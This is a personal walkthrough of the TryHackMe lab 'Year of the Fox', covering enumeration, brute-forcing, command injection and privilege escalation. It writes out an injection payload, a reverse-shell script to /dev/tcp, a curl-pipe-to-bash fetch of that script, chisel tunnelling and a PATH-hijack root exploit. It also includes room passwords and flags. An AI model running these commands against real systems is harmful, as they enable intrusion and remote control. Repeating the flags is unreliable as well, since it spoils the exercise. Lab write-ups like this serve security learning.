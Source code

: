 ```yaml
---
title: "Year of the Fox"
date: 2025-4-01
draft: false
description: TryHackMe's Good Room 
Tags:
- TryHackMe
- Linux
- Hard
---
```



## Enumeration

Lets start with the portscan.
```
PORT    STATE SERVICE      REASON
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

Lets enumerate smb.
![](Pasted%20image%2020250331200015.png)
![](Pasted%20image%2020250331200224.png)

But access denied.
![](Pasted%20image%2020250331201147.png)

and we can see the user fox.
`nxc smb 10.10.54.212 --users `
![](Pasted%20image%2020250331201956.png)

So we got the username fox.
Lets try to do password spray.
```bash
nxc smb 10.10.54.212 -u fox -p /usr/share/wordlists/rockyou.txt
```

I tried password spraying but it didn't worked.
![](Pasted%20image%2020250331205743.png)
After sometime,it worked.
![](Pasted%20image%2020250331205821.png)

Hmm so the password is `abcdefg`.
Really? really?.

Okay.
![](Pasted%20image%2020250331210037.png)

Lets see what we got.
![](Pasted%20image%2020250331211300.png)
We can decrypt it.
![](Pasted%20image%2020250331211331.png)

```php
5c8d7f5eaa6208803b7866d9cbf0ea8a30198a2f8f4426cbe5a4267b272e90a8
716be5b5c8943800c7be592cce374a22be2d7376a263b01791f3fb09182ad284
```

Lets see.
I spent lots of time figuring what is it.
I take a small hint.

There is also another user.
We can run `enum4linux`.
`enum4linux -a 10.10.54.212`
![](Pasted%20image%2020250331231419.png)

## Exploit

And we got another user `rascal`.
I tried that user in port 80.
But we also need password.
Lets try to use hydra.
`hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.54.212 http-get /`
And we got the password.
![](Pasted%20image%2020250331231936.png)
`angel17`

Lets login.
![](Pasted%20image%2020250331232122.png)

Hmmm interesting.
![](Pasted%20image%2020250331232549.png)

What can we do here?
Hmmm we might read files,get rce or like that.
Again i was so stuck,I took the help of writeup and the payload for exploit or command injection.
```json
\";pwd \"
```

So it worked.
![](Pasted%20image%2020250331234558.png)

Hmm lets try to get reverse shell.
But somethingis very odd. 
Doing this we got the ping.
![](Pasted%20image%2020250401003842.png)
![](Pasted%20image%2020250401003859.png)

Hmm lets try to get reverse shell.
It was full blind,something working and something not.

## Foothold

Lets first make a script like this which will give us with the rev shell.
```bash
#!/bin/bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now we are gonna open a python3 web sever by this command.
```bash
python3 -m http.server 8000
```

And we are gonna use curl to acess it and use `|` to execute bash.
```bash
curl http://tun0:8000/shell.sh | bash
```

```php
{"target":"\";curl http://ip:8000/shell.sh | bash\n"}
```

Now we should have got our shell in our listenner.
![](Pasted%20image%2020250401004820.png)

Lets get a tty shell and try to escalate our priveleges.
And we can see the web flag.
`THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}`
![](Pasted%20image%2020250401005100.png)

## Privelege Escalation

Lets run linpeas.sh.
Now i have many questions here.
1.What was that smb files meant for?
2.Whats with user fox?
And many more.

Hmm lets continue.
Again i tried many thing but nothing worked and interestingly.
![](Pasted%20image%2020250401005910.png)
We don't even have any permission to su.

Again after trying for several minutes,I took help from writeup and there is a internal ssh port running.
![](Pasted%20image%2020250401005707.png)
Uff.
Okay lets see.
Hmm lets try doing ssh with user `rascal` with that before password.
And everything is denied.
![](Pasted%20image%2020250401010454.png)

Lets forward this port to our machine.
For that,first of all download chisel from [this](https://github.com/jpillora/chisel)

On your local machine.
```bash
chisel server -p 9001 --reverse
```

And this in victims machine.
```bash
./chisel client ip:9001 R:2222:127.0.0.1:22
```

So what it does is, first command listen on port 9001 to get reverse connection from chisel to expose victims port and second command connect to the our listenner and forward port 22 to our host on port 2222.

And now we can do ssh.
![](Pasted%20image%2020250401011625.png)

But password?.
I tried that password of user `rascal` but it wasn't working.
![](Pasted%20image%2020250401011847.png)

Hmm again after trying to find password for few minutes,i found out we need to use hydra.(obviously from writeup).
Lets use that.
I ran this command for a second.
```bash
 hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 2222
```

And we got the password.
![](Pasted%20image%2020250401012255.png)

Lets do ssh as fox.
`elijah`
![](Pasted%20image%2020250401012404.png)

Hmm now we need to became root i guess.
We also got the user flag.
`THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}`
![](Pasted%20image%2020250401012505.png)

Lets escalate our priveleges to root.
Running `sudo -l`,we can see that we can run `/usr/sbin/shutdown` as root.
![](Pasted%20image%2020250401012618.png)

Hmm lets see how we can exploit this.
We don't have any permission to do something.
![](Pasted%20image%2020250401012833.png)

Can we change the path variable?
Lets see.
Lets do this.
```bash
export PATH="/tmp:$PATH"
```
And it worked.
![](Pasted%20image%2020250401013018.png)

So now we can create a fake shutdown in `/tmp`.
I made a shutdown contaning this.
```bash
#!/bin/bash
chmod 4777 /bin/bash
echo "Done."
```

So when we run shutdown,it should run our shutdown instead of real shutdown.
But at first,lets give our shutdown with the executable permisssion.
```bash
chmod 777 /tmp/shutdown
```

But it didn't worked.
Lets see that `shutdown` executable.
![](Pasted%20image%2020250401135733.png)

Hmm its using `poweroff`.
Lets see this executable.

Ohh what if instead of shutdown,we create a poweroff.
Lets just copy `/bin/bash` to `/tmp/poweroff`.
![](Pasted%20image%2020250401140110.png)

Now lets give it good permission and run `shutdown` with sudo.
![](Pasted%20image%2020250401140240.png)

And we became root.
Lets get the flag.
Hmmm.
![](Pasted%20image%2020250401140323.png)

Lets search for root flag.
```bash
find / -type f -name "*root*" 2>/dev/null
```

And we got it.
![](Pasted%20image%2020250401140743.png)

Hmm lets read that.
![](Pasted%20image%2020250401141059.png)

But what is that base64 thing.
It gives us with hash like strings after decoding.
Like what we have got before in `creds.txt` and `cipher.txt`.
Hmmm.

## Done
And done.
![](Pasted%20image%2020250401141140.png)

Again learned lots of things again.
I hope you are doing great.
Take care :).
